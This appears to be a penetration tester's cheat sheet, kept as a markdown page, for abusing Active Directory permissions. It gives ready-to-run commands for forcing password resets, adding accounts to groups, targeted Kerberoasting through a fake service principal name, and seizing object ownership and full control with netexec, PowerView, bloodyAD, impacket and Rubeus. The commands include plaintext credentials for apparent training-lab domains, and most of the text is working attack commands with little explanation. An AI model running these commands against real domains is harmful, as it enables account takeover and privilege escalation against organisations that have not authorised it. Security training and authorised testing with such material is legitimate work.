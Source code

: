 #### Password Reset (User-Force-Change-Password)
Linux
```bash
netexec smb 10.10.11.69 -u p.agila -p 'prometheusx-303' -M change-password -o USER=winrm_svc NEWPASS='Pwned123!'
```

Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```
Create `SecureString`Object for user to abuse
```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
```
Change users password
```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

OTHER
Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Pwned123!' -AsPlainText -Force ) -Verbose

```

---
#### Adding User to Group (GenericWrite)
Linux
```powershell
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "alfred" -p "basketball" add groupMember "Infrastructure" "Alfred"

net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
Add to group
```powershell
Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity "MSSP Connect" -Members "KSALINAS" -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
Verify
```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select MemberName
```
Cleanup
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

---
#### Targeted Kerberoast
Let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat

Linux
```bash
python3 ~/opt/AD/targetedKerberoast/targetedKerberoast.py -v -d "fluffy.htb" -u p.agila -p 'prometheusx-303' -U Administrator
```

Windows
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```

Create fake SPN
```powershell
Set-DomainObject -Credential $Cred -Identity KSALINAS -SET @{serviceprincipalname='notahacker/Pwned'} -Verbose
```
Kerberoast w/ Rubeus
```powershell
.\Rubeus.exe kerberoast /user:KSALINAS /nowrap
```
Cleanup
```powershell
Set-DomainObject -Credential $Cred -Identity adunn -Clear serviceprincipalname -Verbose
```

---
### WriteOwner

Linux
```bash
impacket-owneredit -action write -new-owner 'Sam' -target 'John' 'tombwatcher.htb'/'sam':'Pwned123!' -dc-ip 10.10.11.72
```

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'Sam' -target 'John' 'tombwatcher.htb'/'sam':'Pwned123!' -dc-ip 10.10.11.72
```

---
### GenericAll (OU)

Linux
```bash
impacket-dacledit -action write -rights 'FullControl' -inheritance -principal 'John' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'John':'Pwned123!' -dc-ip 10.10.11.72
```

---

### Restore User Account

Evil-Winrm
```bash
Restore-ADObject -Identity <GUID>
Enable-ADAccount -Identity cert_admin
```
